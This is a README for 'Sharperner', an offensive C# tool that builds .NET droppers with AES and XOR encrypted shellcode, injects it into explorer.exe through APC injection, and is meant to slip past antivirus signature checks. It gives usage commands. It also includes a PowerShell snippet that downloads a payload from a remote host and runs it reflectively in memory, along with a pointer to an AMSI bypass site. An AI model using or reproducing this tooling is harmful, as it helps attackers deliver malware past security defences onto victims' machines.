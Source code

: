 # Sharperner
**Sharperner** is a tool written in CSharp that generate .NET dropper with AES and XOR obfuscated shellcode. Generated executable can possibly bypass signature check but I cant be sure it can bypass heuristic scanning. 

![](./src/images/scan.PNG)

### Functionalities
* AES + XOR encrypted shellcode
* APC Process Injection (explorer.exe)

### Usage
```
/file         B64 shellcode file
/key        XOR Key (Optional)
/out        Output file Location (Optional)

Example:
Sharperner.exe /file:file.txt
Sharperner.exe /file:file.txt /key:'l0v3151nth3a1ry000www' /out:payload.exe
```

### To-do
* Implement c++ dropper
* Supports raw payload as input
* Implement direct syscalls
* Process Hollowing, PID spoofing

### Suggestion
To avoid touching the disk, Generated .NET executable can be loaded reflectively with powershell. AMSI is the enemy now, [amsi.fail](https://amsi.fail) ftw!
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[beacon.Program]::Main()
```